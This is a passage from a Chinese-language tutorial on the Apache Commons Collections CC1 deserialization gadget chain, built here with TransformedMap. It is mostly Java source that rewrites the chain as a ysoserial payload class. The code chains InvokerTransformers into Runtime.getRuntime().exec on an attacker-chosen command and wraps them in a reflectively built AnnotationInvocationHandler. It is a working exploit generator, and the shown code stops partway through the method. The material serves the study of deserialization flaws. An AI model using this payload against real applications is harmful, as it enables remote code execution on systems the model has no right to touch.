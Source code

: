

## 基于TransformedMap的CC1

在ysoserial中使用的时LazyMap，本质上和我们这个类似。并且在ysoserial中大量的使用到了封装。

```java
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
```

我们可以将我们这个链也用ysoserial的方式实现一遍。

```java
package ysoserial.payloads;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;

@SuppressWarnings({"rawtypes", "unchecked"})
@PayloadTest( precondition = "isApplicableJavaVersion")
@Dependencies({"commons-collections:commons-collections:3.1"})
@Authors({ Authors.FROHOFF })
public class CC1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {


  @Override
  public InvocationHandler getObject(final String command) throws Exception {


    final Transformer[] transformers = new Transformer[]{
      new ConstantTransformer(Runtime.class),
      new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
      new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
      new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{command})
    };
    final Map innerMap = new HashMap();
    innerMap.put("value","123");

    final Transformer transformerChain = new ChainedTransformer(transformers);

    final Map transformedMap = TransformedMap.decorate(innerMap, null ,transformerChain);

    Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> declaredConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
    declaredConstructor.setAccessible(true);
    final InvocationHandler handler = (InvocationHandler) declaredConstructor.newInstance(Target.class, transformedMap);

```